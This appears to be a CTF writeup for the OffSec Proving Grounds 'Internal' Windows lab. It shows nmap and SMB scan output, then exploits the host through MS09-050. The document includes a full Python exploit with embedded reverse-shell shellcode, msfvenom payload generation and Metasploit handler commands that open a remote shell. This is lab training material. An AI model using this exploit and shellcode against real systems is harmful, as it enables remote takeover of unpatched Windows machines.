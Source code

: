 ```yaml
---
title: "Proving grounds Practice: Internal"
layout: post
date: 2023-08-28 04:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Windows
- Pg-Practice
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds practice windows machine writeup"
---
```


## Nmap

```sh
PORT      STATE SERVICE    VERSION
53/tcp    open  tcpwrapped
135/tcp   open  tcpwrapped
139/tcp   open  tcpwrapped
445/tcp   open  tcpwrapped
3389/tcp  open  tcpwrapped
5357/tcp  open  tcpwrapped
49152/tcp open  tcpwrapped
49153/tcp open  tcpwrapped
49154/tcp open  tcpwrapped
49155/tcp open  tcpwrapped
49156/tcp open  tcpwrapped
49157/tcp open  tcpwrapped
49158/tcp open  tcpwrapped
```

## SMB vulnerability scan

```sh
PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```
**Exploit DB**

![img](/assets/images/CTF/Proving_Grounds/Internal/exploitdb.png)

## Exploit using metasploit

```sh
msfconsole
use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
set RHOSTS <target-ip>
set LHOST <local-ip>
run
```

## Exploit without metasploit

[Microsoft Windows - 'srv2.sys' SMB Code Execution (Python) (MS09-050)](https://www.exploit-db.com/exploits/40280).

[Modified working exploit](https://raw.githubusercontent.com/ohnozzy/Exploit/master/MS09_050.py).

**Create reverse shell payload**

```sh
msfvenom -p windows/shell/reverse_tcp LHOST=192.168.45.153 LPORT=4444 EXITFUNC=thread -f c
```

Add the generated shell code as below in the python file.

```py
# EDB-Note: Source ~ https://raw.githubusercontent.com/ohnozzy/Exploit/master/MS09_050.py

#!/usr/bin/python
#This module depends on the linux command line program smbclient. 
#I can't find a python smb library for smb login. If you can find one, you can replace that part of the code with the smb login function in python.
#The idea is that after the evil payload is injected by the first packet, it need to be trigger by an authentication event. Whether the authentication successes or not does not matter.
import tempfile
import sys
import subprocess
from socket import socket
from time import sleep
from smb.SMBConnection import SMBConnection


try:

    target = sys.argv[1]
except IndexError:
    print '\nUsage: %s <target ip>\n' % sys.argv[0]
    print 'Example: MS36299.py 192.168.1.1 1\n'
    sys.exit(-1)

# msfvenom -p windows/shell/reverse_tcp LHOST=192.168.45.153 LPORT=4444 EXITFUNC=thread -f c
# use exploit/multi/handler
# set payload windows/shell/reverse_tcp
# set EXITFUNC=thread 
# config lhost and lport then run

shell = ("\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52"
"\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x31\xff\x0f\xb7"
"\x4a\x26\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d"
"\x01\xc7\x49\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01"
"\xd0\x8b\x40\x78\x85\xc0\x74\x4c\x01\xd0\x8b\x58\x20\x8b"
"\x48\x18\x50\x01\xd3\x85\xc9\x74\x3c\x49\x31\xff\x8b\x34"
"\x8b\x01\xd6\x31\xc0\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75"
"\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58\x24\x01"
"\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01"
"\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58"
"\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00"
"\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8"
"\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80"
"\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x2d\x99\x68\x02\x00"
"\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
"\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74"
"\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67"
"\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f"
"\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10"
"\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53"
"\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8"
"\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b"
"\x2f\x0f\x30\xff\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e"
"\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xe0\x1d\x2a\x0a\x68"
"\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75"
"\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5")

host = target, 445

buff ="\x00\x00\x03\x9e\xff\x53\x4d\x42"
buff+="\x72\x00\x00\x00\x00\x18\x53\xc8"
buff+="\x17\x02" #high process ID
buff+="\x00\xe9\x58\x01\x00\x00"
buff+="\x00\x00\x00\x00\x00\x00\x00\x00"
buff+="\x00\x00\xfe\xda\x00\x7b\x03\x02"
buff+="\x04\x0d\xdf\xff"*25
buff+="\x00\x02\x53\x4d"
buff+="\x42\x20\x32\x2e\x30\x30\x32\x00"
buff+="\x00\x00\x00\x00"*37
buff+="\xff\xff\xff\xff"*2
buff+="\x42\x42\x42\x42"*7
buff+="\xb4\xff\xff\x3f" #magic index
buff+="\x41\x41\x41\x41"*6
buff+="\x09\x0d\xd0\xff" #return address

#stager_sysenter_hook from metasploit

buff+="\xfc\xfa\xeb\x1e\x5e\x68\x76\x01"
buff+="\x00\x00\x59\x0f\x32\x89\x46\x5d"
buff+="\x8b\x7e\x61\x89\xf8\x0f\x30\xb9"
buff+="\x16\x02\x00\x00\xf3\xa4\xfb\xf4"
buff+="\xeb\xfd\xe8\xdd\xff\xff\xff\x6a"
buff+="\x00\x9c\x60\xe8\x00\x00\x00\x00"
buff+="\x58\x8b\x58\x54\x89\x5c\x24\x24"
buff+="\x81\xf9\xde\xc0\xad\xde\x75\x10"
buff+="\x68\x76\x01\x00\x00\x59\x89\xd8"
buff+="\x31\xd2\x0f\x30\x31\xc0\xeb\x31"
buff+="\x8b\x32\x0f\xb6\x1e\x66\x81\xfb"
buff+="\xc3\x00\x75\x25\x8b\x58\x5c\x8d"
buff+="\x5b\x69\x89\x1a\xb8\x01\x00\x00"
buff+="\x80\x0f\xa2\x81\xe2\x00\x00\x10"
buff+="\x00\x74\x0e\xba\x00\xff\x3f\xc0"
buff+="\x83\xc2\x04\x81\x22\xff\xff\xff"
buff+="\x7f\x61\x9d\xc3\xff\xff\xff\xff"
buff+="\x00\x04\xdf\xff\x00\x04\xfe\x7f"
buff+="\x60\x6a\x30\x58\x99\x64\x8b\x18"
buff+="\x39\x53\x0c\x74\x2b\x8b\x43\x10"
buff+="\x8b\x40\x3c\x83\xc0\x28\x8b\x08"
buff+="\x03\x48\x03\x81\xf9\x6c\x61\x73"
buff+="\x73\x75\x15\xe8\x07\x00\x00\x00"
buff+="\xe8\x0d\x00\x00\x00\xeb\x09\xb9"
buff+="\xde\xc0\xad\xde\x89\xe2\x0f\x34"
buff+="\x61\xc3\x81\xc4\x54\xf2\xff\xff"

buff+=shell

s = socket()
s.connect(host)
s.send(buff)
s.close() 
#Trigger the above injected code via authenticated process.
subprocess.call("echo '1223456' | rpcclient -U Administrator %s"%(target), shell=True)
```

### Troubleshoot smb.SMBConnection

The code is writtent in python2 and there will be an exception due to the `pysmb` module not present in the system. In order to resolve the issue follow the below steps:

- Download manually from [https://miketeo.net/blog/projects/pysmb](https://miketeo.net/blog/projects/pysmb).
- Use unzip to extract and run the `setup.py` file using python2.
- Post that install the dependencies if any is missing in your system based on the exception thrown while running the file.
- Ensure the dependency packages are being installed using pip2.

**Run msfconsole**

Run msfconsole and configure the below options.

```sh
use exploit/multi/handler
set payload windows/shell/reverse_tcp #payload important it should be same as our shellcode payload
set EXITFUNC thread
set LHOST <IP>
set LPORT <PORT>
run
```

Run the exploit code along with the target IP and wait for few seconds.

![img](/assets/images/CTF/Proving_Grounds/Internal/shell.png)

Reverse shell obtained.

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).